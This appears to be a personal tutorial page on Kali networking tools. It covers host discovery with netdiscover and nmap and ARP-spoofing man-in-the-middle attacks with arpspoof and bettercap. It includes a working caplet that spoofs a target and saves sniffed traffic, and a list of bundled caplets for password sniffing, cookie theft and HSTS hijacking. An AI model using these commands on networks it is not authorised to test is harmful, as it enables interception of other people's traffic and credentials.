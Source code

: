 -----

* title: Networking
* description: This article is dedicated to computer networks.
* created: 28-11-2007 00:00:00
* modified: 28-11-2007 00:00:00
* keywords: debian, gnu, linux, operating, system, admin, network, wifi, lan, security, hacking, wireless
* lang: en

-----

# Table of Contents

* [Tools](#tools)
* [Discover the network devices](#discover-the-network-devices)
* [Arp spoofing](#arp-spoofing)
   * [arpspoof](#arpspoof)
   * [bettercap](#bettercap)
      * [Web gui of bettercap](#web-gui-of-bettercap)

# Tools

* `netdiscover` - Discover the devices on your network.
* `nmap` - Discover the devices on your network and get more information 
  than `netdiscover`. 
* `zenmap` - A graphical user interface of `nmap`. 
* `arpspoof` - To spoof ARP (for MITM attacks).
* `bettercaps` - Like `arpspoof` but then more advanced. A framework with 
  more options.

# Non classified

    rout -n

# Discover the network devices

To discover all devices connected to a network, we can make use of the  
`netdiscover` utility. Once run, let it run so it will continue to catch and 
discover interesting hosts that join the netwrok.

    netdiscover -r 192.168.0.1/24

We can also use `nmap` or even use the GUI version of it called `zenmap` 
wich both are more complete.

# Arp spoofing

## arpspoof

This is a MITM (Man In The Middle attack) to redirect all traffic from some 
other client thought another computer, so that all data can be sniffed 
more easyly.

See `arp -a` to have your routing table. Command works on GNU/Linux and Windows.

Note that `arpspoof` is not installed by default on Kali 2021. So install the 
concerned package with `apt-get install dsniff` which include this tool.

**We need to run `arpspoof` twice and let it open.**

    arpspoof -i <interface> -t <client-ip> <gateway-ip>
    # In another shell !!!
    arpspoof -i <interface> -t <gateway-ip> <client-ip> 

We can now verify with `arp -a` and we will see that the mac address of the 
router changed !

Note that the computer isn't a real router, so we need enable port forwarding 
on our Kali box.

    echo 1 > /proc/sys/net/ipv4/ip_forward

** IMPORTANT NOTE: On Kali 2021.1 ip_forwarding doesn't work like expected 
by default, an additional step need to be done.**

Edit the file `/etc/sysctl.conf` and uncomment the following line:

    net.ipv4.ip_forward=1

You could reboot or just use `sysctl -p` so that the changes take immediatly 
effect.

**It is also interesting to know that `Wireshark` detect this kind of 
spoofing.**

See also `bettercap` for more functionalities

## bettercap

`Bettercap` is more powerful than the `arpspoof` program. With `bettercap` 
you can also sniff the data on a friendly way. That mean that you could capture 
network data like website browsing and intercept username and password.

When using the app, you can use the `help` command to get help.

For example to get help on a module:

    help net.snif

You can also use the `tab` key to let the program autocomplete. Also to get 
a full list of command in the "root" of the program.

If you use a lot of time the same command each time you use the program, you 
can make in sort to automate some stuff by creating an external file and 
load it. That file is called a `caplet` file. 
So here's an example of a spoofing script. Create a text file that you for 
example name `spoof.cap` with the following content: 

    net.probe on
    set arp.spoof.fullduplex true
    set arp.spoof.targets 10.0.2.5
    arp.spoof on
    # Next one is optional and only for https downgrading to http. As with 
    # hstshijack MITM attack, all become local 
    ### set net.sniff.local true 
    # Save all captured data into a file
    set net.sniff.output /root/bettercap_capture_file.cap
    net.sniff on

And to make use of our commands:

    bettercap -iface eth0 -caplet spoof.cap

You can also list the default caplets that come with `bettercap` and see 
where they are stored on your system.

    captlets.show

Which will show you a list of caplets you have on your system:

    ┌─────────────────────────────────────┬──────────────────────────────────────────────────────────────────────┬────────┐
    │                Name                 │                                 Path                                 │  Size  │
    ├─────────────────────────────────────┼──────────────────────────────────────────────────────────────────────┼────────┤
    │ ap                                  │ /usr/share/bettercap/caplets/ap.cap                                  │ 570 B  │
    │ crypto-miner/crypto-miner           │ /usr/share/bettercap/caplets/crypto-miner/crypto-miner.cap           │ 666 B  │
    │ download-autopwn/download-autopwn   │ /usr/share/bettercap/caplets/download-autopwn/download-autopwn.cap   │ 2.6 kB │
    │ fb-phish/fb-phish                   │ /usr/share/bettercap/caplets/fb-phish/fb-phish.cap                   │ 140 B  │
    │ gitspoof/gitspoof                   │ /usr/share/bettercap/caplets/gitspoof/gitspoof.cap                   │ 216 B  │
    │ gps                                 │ /usr/share/bettercap/caplets/gps.cap                                 │ 109 B  │
    │ hstshijack/hstshijack               │ /usr/share/bettercap/caplets/hstshijack/hstshijack.cap               │ 841 B  │
    │ hstshijack_ORG/hstshijack           │ /usr/share/bettercap/caplets/hstshijack_ORG/hstshijack.cap           │ 1.2 kB │
    │ http-req-dump/http-req-dump         │ /usr/share/bettercap/caplets/http-req-dump/http-req-dump.cap         │ 591 B  │
    │ http-ui                             │ /usr/share/bettercap/caplets/http-ui.cap                             │ 376 B  │
    │ https-ui                            │ /usr/share/bettercap/caplets/https-ui.cap                            │ 655 B  │
    │ jsinject/jsinject                   │ /usr/share/bettercap/caplets/jsinject/jsinject.cap                   │ 210 B  │
    │ local-sniffer                       │ /usr/share/bettercap/caplets/local-sniffer.cap                       │ 244 B  │
    │ login-manager-abuse/login-man-abuse │ /usr/share/bettercap/caplets/login-manager-abuse/login-man-abuse.cap │ 236 B  │
    │ mana                                │ /usr/share/bettercap/caplets/mana.cap                                │ 61 B   │
    │ massdeauth                          │ /usr/share/bettercap/caplets/massdeauth.cap                          │ 302 B  │
    │ mitm6                               │ /usr/share/bettercap/caplets/mitm6.cap                               │ 551 B  │
    │ mycaplet                            │ /root/mycaplet.cap                                                   │ 125 B  │
    │ netmon                              │ /usr/share/bettercap/caplets/netmon.cap                              │ 42 B   │
    │ pita                                │ /usr/share/bettercap/caplets/pita.cap                                │ 900 B  │
    │ proxy-script-test/proxy-script-test │ /usr/share/bettercap/caplets/proxy-script-test/proxy-script-test.cap │ 57 B   │
    │ pwnagotchi-auto                     │ /usr/share/bettercap/caplets/pwnagotchi-auto.cap                     │ 330 B  │
    │ pwnagotchi-manual                   │ /usr/share/bettercap/caplets/pwnagotchi-manual.cap                   │ 440 B  │
    │ rogue-mysql-server                  │ /usr/share/bettercap/caplets/rogue-mysql-server.cap                  │ 501 B  │
    │ rtfm/rtfm                           │ /usr/share/bettercap/caplets/rtfm/rtfm.cap                           │ 210 B  │
    │ simple-passwords-sniffer            │ /usr/share/bettercap/caplets/simple-passwords-sniffer.cap            │ 131 B  │
    │ steal-cookies/steal-cookies         │ /usr/share/bettercap/caplets/steal-cookies/steal-cookies.cap         │ 134 B  │
    │ tcp-req-dump/tcp-req-dump           │ /usr/share/bettercap/caplets/tcp-req-dump/tcp-req-dump.cap           │ 413 B  │
    │ web-override/web-override           │ /usr/share/bettercap/caplets/web-override/web-override.cap           │ 254 B  │
    └─────────────────────────────────────┴──────────────────────────────────────────────────────────────────────┴────────┘

To run some caplet, just type in it's name.

### Web gui of bettercap

Once bettercap is running, you can type in the console `http-ui`. Note that 
it does make use of the default port `80` so if `apache` or any other 
webserver is running this will fail.

You can then visit http://127.0.0.1:80 and you will see a login screen. The 
default username is `user` and the password is `pass`.

